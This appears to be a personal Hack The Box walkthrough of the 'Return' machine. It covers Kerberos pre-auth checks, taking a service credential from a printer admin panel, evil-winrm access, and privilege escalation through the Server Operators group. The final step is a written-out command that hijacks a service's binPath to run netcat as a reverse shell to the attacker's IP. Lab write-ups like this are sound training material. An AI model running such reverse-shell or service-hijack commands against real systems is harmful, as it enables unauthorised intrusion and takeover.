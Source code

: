 
After finding the user printer@return.local, I tried to grab the TGT. However, while I did not get this here in the next output, I did get confirmation that there is no PRE\_AUTH set for this user. This means I should be able to grab the hash.:
```
─$ impacket-GetNPUsers return.local/printer -dc-ip 10.10.11.108
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
Password:
[*] Cannot authenticate printer, getting its TGT
[-] User printer doesn't have UF_DONT_REQUIRE_PREAUTH set
```

**_For some reason, I realized after looking up this box, that there is a website on port 80 for a printer admin panel. For some reason, port 80 did not show in any of the enumeration scans even when specifying all ports. REMEMBER TO TRY A BASIC NMAP SCAN WITH NO PARAMETERS OTHER THAN THE TARGET._**

In this case, I was able to establish a reverse shell by abusing the printer's admin panel. by using my Tun0 IP address and then setting up a netcat listener on port 389.:
![[./_resources/HTB_Return.resources/image.png]]![[./_resources/HTB_Return.resources/image.1.png]]
This revealed the password for the printer:

```
Uname: svc-printer
Passwd: 1edFg43012!!
```

This allowed me to then get a winrm session with evil-winrm.:
![[./_resources/HTB_Return.resources/image.2.png]]

User.txt hash:
![[./_resources/HTB_Return.resources/image.3.png]]
Next, I went up to the root directory and created a tmp folder. Then I uploaded Winpeasx64 to it. I was not able to execute it with powershell for some reason so I used the following command:
```
cmd.exe /c 'winPEASx64.exe'
```

I did not find anything out of the ordinary except for the fact that there are multiple groups this current user (svc-printer) is a part of.:
![[./_resources/HTB_Return.resources/image.4.png]]
in particular, the **Server Operators** group. When researching this, there is a clear path to escalate privileges. In particular, the article linked here that I found.:

**Server Operators group information:**
The Server Operator group is a special user group that often has access to powerful commands and settings on a computer system. This group is typically used for managing a server or for troubleshooting system problems. Server Operators are usually responsible for monitoring the server’s performance, managing system security, and providing technical support to users. They may also oversee installing software updates, creating and maintaining user accounts, and performing routine maintenance tasks.

Next, I used the services command to ernumerate the services running.:
![[./_resources/HTB_Return.resources/image.5.png]]
From there, I would transfer the nc64.exe binary to the tmp folder and change the binary path of the service. The reason we are changing the binary path is to receive a reverse connection as system user from the compromised hosts. I used the following command to change the path of the binary.:
```
sc.exe config VMTools binPath="C:\tmp\nc64.exe -e cmd.exe 10.10.16.4 4444"
```
